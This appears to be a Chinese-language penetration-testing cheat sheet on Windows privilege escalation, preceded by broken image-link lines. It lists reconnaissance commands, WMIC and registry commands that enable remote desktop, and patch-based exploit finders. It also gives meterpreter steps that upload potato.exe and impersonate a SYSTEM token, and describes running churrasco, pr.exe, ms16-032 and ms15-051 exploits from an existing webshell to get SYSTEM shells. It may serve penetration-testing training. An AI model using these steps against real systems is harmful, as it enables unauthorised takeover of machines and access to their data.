









# Windows提权

### 前期信息搜集

```
操作系统的名称和版本信号
    systeminfo | findstr  /B /C:"OS Name" /C:"OS Version"
    systeminfo | findstr /B  /C:"OS 名称"  /C:"OS 版本"
查看用户信息
    查看所有用户:"net user" 或者" net1 user"命令
    查看管理员用户组:"net localgroup administrators"或者
    "net1 localgroup administrators"命令
    查看远程终端在线用户:"query user"或者"quser"命令
查看远程端口(3389)
	1.获取对应的pid号:"tasklist /svc|find "TermService"命令
	2.通过PID号查询端口:"netstat –ano | findstr 1980"命令
查看网络配置情况
    网络配置情况:"ipconfig /all" 命令
    路由器信息:"route Print"命令
    查看arp缓存:"arp –a"命令
    查看网络连接:"netstat –ano"命令
    查看防火墙规则:
    netsh firewall show config
目录文件操作:
    列出c:\phpstudy下的所有目录
    	For /d %i in (c:\phpstudy\*) do @echo %i
    以当前目录为搜索路径,把当前目录及子目录中的全部exe文件列出:
    	For /r %i in (*.exe) do @echo %i
    以指定目录为搜索目录,把当前目录以及子目录中的所有文件列出:
   		for /r "目录名" %i  in (*.*) do echo %i
开启3389端口
	在windows server 2003 中,使用cmd命令开启3389:
        wmic path win32_terminalservicesetting where (__CLASS != "") call setallowtsconnections 1
        
	在windows server 2008/7/server 2012中,使用cmd开启3389端口
        1.Wmic 	/namespace:\\root Cimv2\terminalservices path win32_terminalservicesetting where (__CLASS != "") call setallowtsconnections 1
        2.Wmic /namespace:\\root\cimv2\terminalservices path win32_tsgeneralsetting 
Where (TerminalName=‘RDP-Tcp’) call setuserauthenticationrequired 1
		3.Reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server "
 /v fSingleSessionPerUser  /t REG_DWORD /d 0 /f 

		在windows server 2012 和windows 7 中只需要执行前2条命令.
```

## Windows 提权准备

### systminfo ，根据系统补丁提权

```
1.信息收集
2.根据操作系统的具体情况来决定提权

提权辅助工具

Windows exploit-suggester是一款提权辅助工具
```

#### 漏洞检测工具一、

**将目标服务器的systeminfo导出进行检测，这样不用在目标服务器安装python环境**

```
systeminfo > systeminfo.txt
```

**本地环境安装python2 模块**

```

python27 -m pip install xlrd 
如果装不上可以使用这个安装(也可以自己下载安装)
pip --trusted-host pypi.python.org install xlrd
```




**更新得到database(该文件存放的是漏洞检测内容) 文件**

```
python27 windows-exploit-suggester.py --update
```




**进行漏洞检**

```
python27 windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo systeminfo.txt
```






#### 漏洞检测工具二、

```
 使用wes.py –update进行更新
```




**将目标服务器的systeminfo导出进行检测，这样不用在目标服务器安装python环境**

```
systeminfo > systeminfo.txt
```

**将扫描得到的结果存放到result.txt文件中**

```
wes.py systeminfo.txt > result.txt
```




**查看result.txt得到可以利用的漏洞**


**提权成功率较高的exp网站**

```
https://github.com/SecWiki/windows-kernel-exploits
```

### ms16-075烂土豆复现

```
使用msf获取反弹shell之后，上传一个potato程序。使用use incognito 再查看有哪些会话可以利用，如果有系统权限的的会话就直接利用，如果没有就运行上传的potato程序，再查看可以利用的会话。进行权限提升
```

**ms16-075烂土豆盗取token令牌**

**在获取到webshell的前提下，上传一个反弹exe程序**

**使用potato.exe进行提权**

```
已经获取反弹会话

meterpreter > upload  /root/桌面/potato.exe C:\Users\Public
meterpreter > cd C:\\Users\\Public
meterpreter > use incognito
meterpreter > list_tokens -u
NT AUTHORITY\IUSR

meterpreter > execute -cH -f ./potato.exe
meterpreter > list_tokens -u
NT AUTHORITY\IUSR
NT AUTHORITY\SYSTEM

meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
```

### ms09-012巴西烤肉提权复现

**受影响的操作系统**

```
Windows 2008 x64 x86;XP;Server 2003 sp1 sp2;
```

**使用条件：必须可以执行cmd命令**

```
churrasco.exe是利用一个2003本地提权漏洞，通过此工具可以执行命令，从而可以达到添加用户的目的。
```

### pr提权

```
需要上传pr.exe程序

windows跟踪注册表项的ACL权限提升漏洞
```

### ms16-032提权复现

**在获取到webshell的前提下，上传一个ms16-032.exe程序，执行之后就会弹出一个具有系统权限的cmd会话**



### ms15-051提权复现

**在获取到webshell的前提下，上传一个ms15-051.exe程序，执行之后就会弹出一个具有系统权限的cmd会话**

